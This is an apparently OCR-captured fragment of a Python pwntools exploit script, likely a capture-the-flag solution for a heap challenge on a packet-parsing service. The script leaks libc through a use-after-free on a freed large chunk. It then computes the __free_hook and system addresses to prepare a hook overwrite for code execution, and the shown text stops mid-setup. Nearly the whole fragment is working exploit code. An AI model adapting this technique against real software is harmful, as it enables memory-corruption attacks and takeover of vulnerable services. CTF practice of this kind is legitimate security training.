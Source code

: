 ```python
  std::uint64_t sz;
  std::string name;
  std::uint64_t nothing;
  NOP_STRUCTURE(Person, cmd, idx, sz, name, nothing);
};
"""

def pack_int(num: int):
    return b'\x82' + p32(num)


def pack_str(content: bytes):
    return b'\xBD' + len(content).to_bytes(1,'little') + content


def payload(cmd: int, idx: int, size: int = 0x20, content: bytes = b'A'*0x20) -> bytes:
    payload = b'\xB9\x05'
    payload += cmd.to_bytes(1, 'little')
    payload += b'\x82' + p32(idx) + b'\x82' + p32(size)
    payload += pack_str(content)
    payload += b'\x00'
    return payload


def send_packet(content: bytes):
    sh.sendlineafter(b'Packet length: ', str(len(content)).encode())
    sh.sendafter(b'Content: ', content)


def add(idx: int, size: int):
    send_packet(payload(0, idx, size))


def show(idx: int):
    send_packet(payload(1, idx))


def delete(idx: int):
    send_packet(payload(2, idx))


def edit(idx: int, content: bytes):
    send_packet(payload(3, idx, 0, content))



add(0, 0x580)  # 0
add(1, 0x10)  # 1
# gdb.attach(sh)
# pause()
delete(0)
show(0)


libc_base = u64(sh.recv(6).ljust(8,b'\x00')) - 0x3ebca0
print("libc_base >>> ", hex(libc_base))

free_hook_addr = libc_base + libc.sym['__free_hook']
system_addr = libc_base + libc.sym['system']

add(2, 0x80)  # 2
add(3, 0x80)  # 3

```